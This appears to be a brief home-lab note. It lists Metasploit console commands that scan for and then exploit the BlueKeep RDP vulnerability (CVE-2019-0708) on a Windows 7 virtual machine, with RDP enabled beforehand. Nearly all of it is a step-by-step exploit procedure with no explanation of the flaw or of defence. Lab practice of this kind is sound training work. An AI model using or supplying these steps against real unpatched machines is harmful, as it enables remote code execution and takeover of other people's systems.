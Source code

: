 1. Enable RDP - Right-click My Computer > adv sys settings > remote > Allow
2. In msfconsole in the kali machine:
	use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
	set rhosts [windows 7 ip address] 
	If you are using virtual box on the windows 7 machine - set target 2
	run
	use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	set rhosts [windows 7 ip address] 
	If you are using virtual box on the windows 7 machine - set target 2
	exploit
3. Observe the windows 7 machine
	
